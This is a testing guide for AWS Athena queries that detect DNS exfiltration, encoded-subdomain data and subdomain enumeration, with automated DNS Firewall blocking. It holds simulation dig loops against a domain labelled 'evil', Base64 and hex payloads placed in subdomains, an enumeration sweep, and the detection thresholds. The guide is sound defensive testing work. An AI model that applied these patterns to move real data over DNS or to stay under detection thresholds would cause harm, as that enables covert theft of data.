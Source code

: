 # DNS Exfiltration Detection Testing Guide

This guide provides step-by-step instructions for testing each of the DNS threat detection queries.

## Prerequisites

- SSH access to EC2 instance: `ssh ec2-user@35.176.181.211 -i ~/.ssh/id_rsa`
- AWS Athena console access with workgroup: `dns-exfiltration-analysis`
- Domain for testing: `*.andrewrea.co.uk` (replace with your domain)

## Test Environment Setup

1. **Connect to EC2 instance**:
   ```bash
   ssh ec2-user@35.176.181.211 -i ~/.ssh/id_rsa
   ```

2. **Wait 5-10 minutes** after running DNS queries for logs to appear in S3

3. **Run Athena queries** in the AWS console under workgroup `dns-exfiltration-analysis`

---

## Test 1: DNS Exfiltration Detection

**Objective**: Simulate high frequency subdomain queries indicating data exfiltration

**Pattern**: >20 queries with subdomains in 5 minutes

### Test Steps:

**Minute 0 - Generate exfiltration pattern**:
```bash
# Run on EC2 instance
for i in {1..25}; do 
  dig "data${i}.evil.andrewrea.co.uk"
  sleep 10  # 25 queries over ~4 minutes
done
```

**Minute 5 - Check results**:
1. Go to AWS Athena console
2. Run saved query: **"DNS Exfiltration Detection"**
3. **Expected Result**: 
   - Shows `evil.andrewrea.co.uk` 
   - `severity`: HIGH or CRITICAL
   - `query_count`: 25
   - `threat_type`: HIGH_FREQUENCY

---

## Test 2: DNS Data Encoding Detection

**Objective**: Detect Base64/Hex encoded data in DNS subdomain names

**Pattern**: Long subdomains (>15 chars) with encoding patterns

### Test Steps:

**Minute 0 - Generate encoded data queries**:
```bash
# Base64 encoded queries ("HelloWorld", "This is a test")
dig "SGVsbG9Xb3JsZA.evil.andrewrea.co.uk"
dig "VGhpcyBpcyBhIHRlc3Q.evil.andrewrea.co.uk"

# Hex encoded queries ("HelloWorld", "Another test string")  
dig "48656c6c6f576f726c64.evil.andrewrea.co.uk"
dig "416e6f74686572207465737420737472696e67.evil.andrewrea.co.uk"

# Repeat the pattern 2-3 times to hit >5 threshold
dig "SGVsbG9Xb3JsZA.evil.andrewrea.co.uk"
dig "48656c6c6f576f726c64.evil.andrewrea.co.uk"
```

**Minute 5 - Check results**:
1. Go to AWS Athena console
2. Run saved query: **"DNS Data Encoding Detection"**
3. **Expected Result**:
   - Shows `evil.andrewrea.co.uk`
   - `encoding_patterns`: ['BASE64', 'HEX']
   - `avg_label_length`: 20-30
   - `threat_type`: DATA_ENCODING

---

## Test 3: Subdomain Enumeration Detection

**Objective**: Detect reconnaissance via multiple unique subdomains

**Pattern**: >5 unique subdomains per apex domain (recon behavior)

### Test Steps:

**Minute 0 - Generate reconnaissance pattern**:
```bash
# Simulate subdomain enumeration/scanning
dig "admin.target.andrewrea.co.uk"
dig "mail.target.andrewrea.co.uk"
dig "ftp.target.andrewrea.co.uk"
dig "api.target.andrewrea.co.uk"
dig "dev.target.andrewrea.co.uk"
dig "staging.target.andrewrea.co.uk"
dig "test.target.andrewrea.co.uk"
dig "www.target.andrewrea.co.uk"
```

**Minute 5+ - Check results**:
1. Go to AWS Athena console
2. Run saved query: **"Subdomain Enumeration Detection"**
3. **Expected Result**:
   - Shows `target.andrewrea.co.uk`
   - `unique_subdomains`: 8
   - `total_queries`: 8
   - Used for investigation/alerting (not automatic blocking)

---

## Combined Testing

**Run all tests simultaneously** using different subdomains:

```bash
# Terminal 1 - Exfiltration test
for i in {1..25}; do dig "data${i}.evil.andrewrea.co.uk"; sleep 10; done &

# Terminal 2 - Encoding test  
for i in {1..3}; do
  dig "SGVsbG9Xb3JsZA.encoding.andrewrea.co.uk"
  dig "48656c6c6f576f726c64.encoding.andrewrea.co.uk"
  sleep 30
done &

# Terminal 3 - Enumeration test
for subdomain in admin mail ftp api dev staging test www; do
  dig "${subdomain}.recon.andrewrea.co.uk"
  sleep 5
done &
```

---

## Troubleshooting

### No Results in Athena

1. **Check S3 logs**: Verify new files in `s3://dnsexfil-demo-athena-logs/AWSLogs/.../vpcdnsquerylogs/`
2. **Refresh table metadata**: Run `MSCK REPAIR TABLE dns_logs_db.resolver_dns_logs;` in Athena
3. **Check timing**: DNS logs may take 5-15 minutes to appear in S3
4. **Verify VPC**: Ensure DNS queries are from the correct VPC

### False Negatives

- **Threshold too high**: Reduce query thresholds in saved queries if needed
- **Time window**: Ensure queries run within the 5-minute detection window
- **Subdomain requirement**: Remember queries to apex domains (e.g., `google.com`) are ignored

### Expected Legitimate Traffic

These patterns should **NOT** trigger alerts:
- `google.com` (direct apex domain)
- `api.github.com` (legitimate API calls)
- `10 calls to same subdomain` (below threshold)

---

## Query Thresholds Summary

| Detection Type | Time Window | Threshold | Purpose |
|---|---|---|---|
| DNS Exfiltration | 5 minutes | >20 queries | Lambda automation |
| Data Encoding | 5 minutes | >5 queries | Lambda automation |  
| Subdomain Enumeration | 24 hours | >5 subdomains | Investigation/alerting |

---

## Lambda Integration

For automated blocking, your Lambda should:

1. **Run queries #1 and #2 every 5 minutes**
2. **Parse results** for `apex_domain` and `severity`
3. **Block domains** where `severity` ∈ {'CRITICAL', 'HIGH'}
4. **Add to Route 53 DNS Firewall** blocklist automatically

**Note**: Query #3 (Subdomain Enumeration) is for investigation/alerting, not automatic blocking.